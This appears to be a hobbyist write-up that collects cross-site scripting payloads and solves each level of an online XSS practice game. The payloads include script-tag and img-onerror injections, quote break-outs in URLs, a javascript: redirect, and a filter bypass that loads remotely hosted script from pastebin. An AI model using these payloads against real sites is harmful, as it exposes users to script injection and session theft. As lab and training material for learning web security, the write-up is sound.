 # Alert
```js
<script>alert("nu11secur1ty_is_here");</script>

<script>alert("Hello");</script>
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image

```js
<img+src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 1
***The point of view***: **find POST, GET or INPUT and exploit them**

```url
https://xss-game.appspot.com/level1
```
- - Level 1

This is the most obvious and easiest one. Just insert following code and you're done:
```js
<script>alert(1)</script>
```
-------------------------------------------------------------------
- - Level 2

Since the `script` won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use `img` tags along with the `onerror` attributes. Here you go:
```js
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>

-----------------------------

<img src="http://inexist.ent" onerror="javascript:alert("01100110011011110111001000100000011001100110100101111000001000000110100101101101011011010110010101100100011010010110000101110100011001010110110001111001")"/>

------------------------------

<img src="http://inexist.ent" onerror="javascript:alert(Hello, nu11secur1ty is here! Please fix this stupid problem!)"/>
```
--------------------------------------------------------------------
- - Level 3

Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see `index.html:`
```html
[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
```
As you see the `num` parameter is used to generate the `img` tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the `onerror` attribute to insert JS. Insert this into the URL address bar and you'll get your `alert()`:

- - Exploit
```url
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
```
---------------------------------------------------------------
- - Level 4

This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting `https://xss-game.appspot.com/level4/frame?timer='` showed me following output:

```js
SyntaxError: unterminated string literal

startTimer(''');
```

Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal

    startTimer('')');
```

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal


    startTimer('')');
```

And then I've decided to use some URL encoding: `%3B` represents the semi-colon.

- https://xss-game.appspot.com/level4/frame?timer=')%3B

```js
   SyntaxError: unterminated string literal


    startTimer('');');
```

Aha.. There you go! We can terminate the call and insert other ones. The final request:

- https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in


```js
startTimer('');alert(1);var b=('');
```

Boom: Nice one!

----------------------------------------------------------------------


- - Level 5

This one was quite easy. On the first page you can see a link: `https://xss-game.appspot.com/level5/frame/signup?next=confirm`. Now let's have a look how this `next` parameter is used in `confirm.html`:

```js
[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
```

So the window.location is set based on the `next` parameter. This is a typical case for DOM based XSS. Besides that we have in `signup.html`:

```js
[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
```

Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
- Insert your Mail
- Click Next >>
- Voila!

-------------------------------------------------------------------------------

- - Level 6

This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```js
[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
```
Afterwards the text after the hash is used as the scripts src:

```js
// Load this awesome gadget
scriptEl.src = url;
```

Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the `final PoC`:

- https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0

# Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

#####################################################################################

# test 2
```
http://testphp.vulnweb.com/
```
# find POST, GET or INPUT and exploit them

- - example:
```html
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..." onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
```

- - MOre: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
